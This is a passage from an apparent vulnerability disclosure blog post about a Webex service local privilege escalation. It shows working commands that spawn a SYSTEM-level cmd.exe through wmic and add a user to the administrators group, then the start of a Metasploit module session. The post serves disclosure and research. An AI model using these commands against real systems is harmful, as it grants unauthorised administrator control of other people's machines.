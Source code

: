 It actually runs with a GUI, too, so that's kind of unnecessary. I could literally see it! And it's running as <tt>SYSTEM</tt>!

Speaking of unknowns, running <tt>cmd.exe</tt> and <tt>powershell</tt> the same way does not appear to work. We can, however, run <tt>wmic.exe</tt> and <tt>net.exe</tt>, so we have some choices!

<h2>Local exploit</h2>

The simplest exploit is to start <tt>cmd.exe</tt> with <tt>wmic.exe</tt>:
<pre><span class="rubyConstant">C</span>:\<span class="rubyConstant">Users</span>\ron&gt;sc start webexservice a software-update <span class="Number">1</span> wmic process call create <span class="rubyStringDelimiter">"</span><span class="String">cmd.exe</span><span class="rubyStringDelimiter">"</span>
</pre>
That opens a GUI <tt>cmd.exe</tt> instance as <tt>SYSTEM</tt>:
<pre>Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32&gt;whoami
nt authority\system
</pre>
If we can't or choose not to open a GUI, we can also escalate privileges:
<pre>C:\Users\ron&gt;net localgroup administrators
[...]
Administrator
ron

C:\Users\ron&gt;sc start webexservice a software-update 1 net localgroup administrators testuser /add
[...]

C:\Users\ron&gt;net localgroup administrators
[...]
Administrator
ron
testuser
</pre>

And this all works as an unprivileged user!

Jeff wrote a <a href="https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/exploits/windows/local/webexec.rb">local module for Metasploit</a> to exploit the privilege escalation vulnerability. If you have a non-SYSTEM session on the affected machine, you can use it to gain a SYSTEM account:

<pre>
meterpreter &gt; getuid
Server username: IEWIN7\IEUser

meterpreter &gt; background
[*] Backgrounding session 2...

msf exploit(multi/handler) &gt; use exploit/windows/local/webexec
msf exploit(windows/local/webexec) &gt; set SESSION 2
SESSION =&gt; 2
